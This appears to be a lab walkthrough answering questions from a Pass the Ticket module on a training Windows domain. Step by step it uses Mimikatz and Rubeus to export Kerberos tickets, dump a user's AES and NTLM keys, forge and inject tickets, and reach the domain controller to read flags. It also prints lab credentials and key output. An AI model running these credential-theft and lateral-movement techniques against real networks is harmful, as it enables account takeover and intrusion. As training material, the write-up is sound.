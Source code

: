 # Pass the Ticket (PtT) from Windows

RDP to 10.129.3.125 with user "`Administrator`" and password "`AnotherC0mpl3xP4$$`"

## Connect to the target machine using RDP and the provided creds. Export all tickets present on the computer. How many users TGT did you collect?

```bash
#Mimikatz
cd C:\tools
mimikatz.exe
privilege::debug
sekurlsa::tickets /export
exit
dir *.kirbi
```

OR

Rubeus - Export Tickets

```bash
Rubeus.exe dump /nowrap
```

3

## Use john's TGT to perform a Pass the Ticket attack and retrieve the flag from the shared folder \DC01.inlanefreight.htb\john

### Mimikatz Route

{% code overflow="wrap" %}
```bash
mimikatz.exe
privilege::debug
sekurlsa::ekeys
```
{% endcode %}

john ekeys

```
Authentication Id : 0 ; 408153 (00000000:00063a59)
Session           : Service from 0
User Name         : john
Domain            : INLANEFREIGHT
Logon Server      : DC01
Logon Time        : 2/20/2024 8:33:48 AM
SID               : S-1-5-21-3325992272-2815718403-617452758-1108

         * Username : john
         * Domain   : INLANEFREIGHT.HTB
         * Password : (null)
         * Key List :
           aes256_hmac       9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc
           rc4_hmac_nt       c4b0e1b10c7ce2c4723b4e2407ef81a2
           rc4_hmac_old      c4b0e1b10c7ce2c4723b4e2407ef81a2
           rc4_md4           c4b0e1b10c7ce2c4723b4e2407ef81a2
           rc4_hmac_nt_exp   c4b0e1b10c7ce2c4723b4e2407ef81a2
           rc4_hmac_old_exp  c4b0e1b10c7ce2c4723b4e2407ef81a2
```

Now that we have access to the `AES256_HMAC` and `RC4_HMAC` keys, we can perform the OverPass the Hash or Pass the Key attack using `Mimikatz` and `Rubeus`.

```bash
privilege::debug
sekurlsa::pth /domain:inlanefreight.htb /user:john /ntlm:c4b0e1b10c7ce2c4723b4e2407ef81a2
dir \\DC01.inlanefreight.htb\john
type \\DC01.inlanefreight.htb\john\john.txt
Learn1ng_M0r3_Tr1cks_with_J0hn
```

### Rubeus Route

```bash
Rubeus.exe  asktgt /domain:inlanefreight.htb /user:john /aes256:9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc /nowrap
```

result

```
ServiceName              :  krbtgt/inlanefreight.htb
  ServiceRealm             :  INLANEFREIGHT.HTB
  UserName                 :  john
  UserRealm                :  INLANEFREIGHT.HTB
  StartTime                :  2/20/2024 9:23:02 AM
  EndTime                  :  2/20/2024 7:23:02 PM
  RenewTill                :  2/27/2024 9:23:02 AM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  OjG9O3waQlOnUC8h+asGslAgoQhqTN3FsqVfbC+7S8Y=
  ASREP (key)              :  9279BCBD40DB957A0ED0D3856B2E67F9BB58E6DC7FC07207D0763CE2713F11DC
```

With `Rubeus` we performed an OverPass the Hash attack and retrieved the ticket in base64 format. Instead, we could use the flag `/ptt` to submit the ticket (TGT or TGS) to the current logon session.

```bash
Rubeus.exe asktgt /domain:inlanefreight.htb /user:john /rc4:c4b0e1b10c7ce2c4723b4e2407ef81a2 /ptt
dir \\DC01.inlanefreight.htb\john
```

Another way is to import the ticket into the current session using the `.kirbi` file from the disk. Let's use a ticket exported from Mimikatz and import it using Pass the Ticket.

```bash
#Rubeus - Pass the Ticket
Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi
dir \\DC01.inlanefreight.htb\john
```

<pre class="language-bash"><code class="lang-bash"><strong>#Mimikatz - Pass the Ticket
</strong>mimikatz.exe 
privilege::debug
kerberos::ptt "C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"
exit
dir \\DC01.inlanefreight.htb\john
</code></pre>

## Use john's TGT to perform a Pass the Ticket attack and connect to the DC01 using PowerShell Remoting. Read the flag from C:\john\john.txt

```bash
#Mimikatz
privilege::debug
kerberos::ptt "C:\tools\[0;7c112]-2-0-60a10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"
exit
powershell
Enter-PSSession -ComputerName DC01
type C:\john\john.txt
P4$$_th3_Tick3T_PSR
```

```bash
#Rubeus
Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show
Rubeus.exe asktgt /user:john /domain:inlanefreight.htb /aes256:9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc /ptt
powershell
Enter-PSSession -ComputerName DC01
type C:\john\john.txt
P4$$_th3_Tick3T_PSR
```
